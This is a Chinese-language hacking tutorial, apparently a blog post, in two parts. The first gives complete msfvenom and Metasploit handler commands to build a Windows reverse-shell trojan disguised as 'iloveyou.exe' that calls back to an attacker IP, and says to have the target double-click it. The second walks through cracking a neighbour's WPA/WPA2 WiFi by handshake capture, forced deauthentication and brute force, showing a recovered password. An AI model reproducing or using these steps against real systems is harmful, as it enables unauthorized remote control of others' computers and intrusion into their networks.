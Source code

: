 # 利用任何windows远程

#### 1. 生成病毒

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.1.1.1 lport=4444 -f exe -a x86 > iloveyou.exe
```

lhost 后面跟着的是本机kali的IP地址，lport为端口号。iloveyou.exe为要生成的文件名称。

#### 2. 启动metasploit进行远程

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.1.1.1
set lport 4444
exploit
```

执行到这里，需要把第一步生成的iloveyou.exe文件放在远程的Windows电脑上双击执行。

然后就可以使用命令远程Windows。

```
# 如果需要可以执行下面的语句
upload abc.apk
```

# 破解WiFi密码

在虚拟机上使用kali无法访问本机的网卡用airmon-ng命令查看

虚拟机无法访问网卡，所以需要使用外接的USB无线网卡，首先在主机上按win+r键然后输入services.msc

回车

将VMware USB Aribitration...选项设置为启动，然后打开虚拟机，在上面的虚拟机选项中==》选择可自动设备==》中的==》usb无线网卡

然后看右下角的U盘图标是否是灰色，如果是灰色，则右键选择链接，

【如果虚拟机中没有USB选项的可在虚拟机==》设置里添加usb控制器，然后连接，注意设置usb连接时需在虚拟机关机时进行】，


此时便可以看见网卡信息，输入ifconfig查看网卡信息


**1、Wifi万能钥匙的工作原理是共享收集**

比如A装了万能钥匙，然后连接了路由一，那么这时A手机的万能钥匙就会记录该路由的信息，如地址，帐号，密码等并上传到服务器。B手机无密码却想上该路由一的时候，B手机里所装的万能钥匙就会收集路由信息发送到服务器，然后服务器会从已有数据库中进行匹配，会找到A手机所上传的路由一的所有信息。所以为什么用万能钥匙的人越多，则成功率越高。


**2、软件破解的工作原理是暴力破解（今天学习的课程 ）**

目前无线网络加密技术日益成熟。以前的wep加密方式日渐淘汰，因为这种加密方式非常容易破解，当然现在还是有不少使用这种加密方式无线网络。现在大部分的无线网络都是使用wpa/wpa2方式来加密的，这种加密方式安全系数高，很难破解，当然这也不是不可能的。与万能钥匙APP相比，现在我们演示的是真正实力派的破解，然而今天的课程将教大家如何破解用wpa/wpa2加密方式的wifi密码。

第一步：(iwconfig命令查看加载的网卡)

![img](https://img-blog.csdn.net/20180526091452679)
第二步：(开启网卡的监听模式)

![img](https://img-blog.csdn.net/20180526091502339)
第三步：(扫描附近的WIFI，破解目标vm888)

![img](https://img-blog.csdn.net/20180526091510252)
第四步：(对无线网络vm888 无线WIFI网络进行抓包)

![img](https://img-blog.csdn.net/20180526091518469)
第五步：(抓包成功)

![img](https://img-blog.csdn.net/20180526091527141)
第六步：(如抓不到包，把对方踢下线，这样就会抓包成功)

![img](https://img-blog.csdn.net/20180526091535428)
第七步：(进行破解WIFI密码)

![img](https://img-blog.csdn.net/20180526091544543)
最后，无线WIFI网络vm888破解完成，密码18871208，破解时间只需要2秒.